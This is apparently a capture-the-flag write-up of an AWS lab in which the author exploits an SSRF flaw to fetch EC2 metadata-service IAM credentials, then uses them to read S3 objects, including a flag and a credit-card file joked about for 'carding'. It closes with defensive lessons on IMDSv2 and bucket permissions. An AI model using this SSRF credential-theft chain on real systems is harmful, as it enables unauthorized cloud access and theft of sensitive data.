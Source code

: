 ```yaml
---
title: "Pwned Labs - SSRF to Pwned"
date: 2024-02-04
categories: [AWS, Cloud, Security]
tags: [AWS, Security, EC2]
---
```


![Intro](/images/PwnedLabs/SSRF/8.png)

Hey everyone! It's time for another AWS Security challenge write-up. This time, we will be solving the [SSRF to Pwned](https://pwnedlabs.io/labs/ssrf-to-pwned) challenge. When we begin the lab, we are provided by an IP address as an entry point so let's start with that.

A Nmap scan reveals port 80 is open, so let's explore what's running there. Also, observe that the nmap also returned `ec2-52-6-119-121.compute-1.amazonaws.com` which indicates that this is a IP of an EC2 server.
```
nmap 52.6.119.121
Nmap scan report for ec2-52-6-119-121.compute-1.amazonaws.com (52.6.119.121)                                            
Host is up (0.21s latency).                                                                                             
Not shown: 998 filtered ports                                                                                           
PORT    STATE  SERVICE                                                                                                  
80/tcp  open   http                                                                                                     
443/tcp closed https
```

When I tried to open the IP in the browser, it redirects to `hugelogistics.pwn`.  We first need to add the following entry in our hosts file then we can browse the website in our browser. I added the following entry in the `C:\Windows\System32\drivers\etc\hosts` file. In case of Linux systems, you can add the entry in `/etc/hosts` file. 
```
52.6.119.121 hugelogistics.pwn
```
Now, when we load the site `hugelogistics.pwn` in our browser, we see the following site. 

![Intro](/images/PwnedLabs/SSRF/0.png)

While looking at the source code of the website, we can notice that this static website is hosted using S3 bucket hosting, and the bucket name is `huge-logistics-storage`. 

![Intro](/images/PwnedLabs/SSRF/source.png)

We can observe that the bucket is publicly accessible, and contains the flag in the `backup` folder. But, we do not have permission to read the `flag.txt`. 
```
$ aws s3 ls s3://huge-logistics-storage --no-sign-request
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --no-sign-request
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt

$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --no-sign-request
download failed: s3://huge-logistics-storage/backup/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```
Switching back to my browser, I started exploring the site and found a Status Check functionality, this functionality passes a parameter called "name" with the value `hugelogisticstatus.pwn`. The response is the Status Page as shown below. The first thing that comes to mind when you see this kind of functionality is SSRF.

![Intro](/images/PwnedLabs/SSRF/1.png)

So, without taking more time, I quickly passed the Instance Meta-data Service (IMDS) IP `http://169.254.169.254` to the name parameter. We can notice in the response, we are getting the data.

> There have been numerous cloud data breaches caused because an attacker was able to get the Role credentials attached to EC2 instances by exploiting vulnerabilities such as SSRF or RCE. This occurs because when exploiting a vulnerability like SSRF, an attacker can send requests to internal infrastructure. Each EC2 instance has a service called Instance Meta-data service (IMDS) attached to it. The Instance Metadata Service (IMDS) in AWS is a service that provides information about an Amazon Elastic Compute Cloud (EC2) instance, accessible at 169.254.169.254. It enables EC2 instances to retrieve metadata about themselves,
such as instance ID, IP address, security group information, and most importantly, the IAM credentials provided to the instance via the EC2 Instance Profile Role.\
You can obtain the temporary AWS credentials by sending a request to :\
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance-role>`\
If an application running on an EC2 instance was vulnerable to SSRF attacks, attackers could exploit the vulnerability to exfiltrate the IAM credentials through the IMDSv1 endpoint, which are granted to the instance via IAM Instance Profile Role. With the stolen temporary security credentials, attackers could escalate their privileges and gain unauthorized access to other AWS resources, including S3 buckets, databases, or launch further attacks within the victim’s environment.\ 
To enhance security for the IMDS endpoint, AWS introduced IMDSv2, implementing a small yet crucial change in the way IMDS was accessed. Instead of allowing access without authentication, IMDSv2 enforces the fetching of a token that is then used to authenticate all requests made to the IMDS endpoint. This measure significantly reduces the risk of unauthorized access through SSRF vulnerabilities.
And, if in any scenario an attacker is able to extract these temporary credentials, AWS GuardDuty (if enabled) sends an alert notifying you about the incident. For example, below two alerts:
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS\
> InsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them to their own EC2 instance for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from within the AWS netowrk.\
OutsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them in the terminal of their system for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from outside the AWS network.

![Intro](/images/PwnedLabs/SSRF/2.png)

We were able to successfully obtain the temporary credentials by opening `http://hugelogistics.pwn/status/status.php?name=169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access`, here you should note that the role attached to the EC2 server is "MetapwnedS3Access".

![Intro](/images/PwnedLabs/SSRF/3.png)

We know once we get the AWS Credentials, our next step is to configure them into our AWS profile. But, this time we also have a token alongside AWS Access Key and Secret Key, we can configure those as shown below.

![Intro](/images/PwnedLabs/SSRF/5.png)

Or you can also export these credentials into your environment variables to use them further. 
```
$ export AWS_ACCESS_KEY_ID=key
$ export AWS_SECRET_ACCESS_KEY=key
$ export AWS_SESSION_TOKEN=token
```
We can observe that we have assumed the role MetapwnedS3Access, along with the EC2 instance id `i-0199bf97fb9d996f1` the role is attached to. This command below is basically `whoami` command in context of AWS.

```
$ aws sts get-caller-identity --profile ssrf
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```
Now, we have everything configured and working, so let us try to list the bucket objects with the recently obtained credentials. 

```
$ aws s3 ls huge-logistics-storage --profile ssrf
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --profile ssrf
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```
We notice a file called `cc-export2.txt`, which contains data of bunch of credit card. We will use them for carding later /s.  

![Intro](/images/PwnedLabs/SSRF/7.png)

Let's obtain the flag and finish the challenge.
```
$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --profile ssrf
282f0[.............]7110
```

## Lessons Learned
1. Do not keep your confidential data in public buckets.
2. Assign proper permissions on the buckets and objects defining who can access your data, keeping in mind the Least privilege policy model.
3. Migrate all your previous EC2, ECS, EKS instances to IMDSv2 service.
4. With the latest announcement in the last re:Invent, all the new EC2 instances will be on IMDSv2 by default, but you should write a SCP to make sure nobody can change the configuration back to IMDSv1.  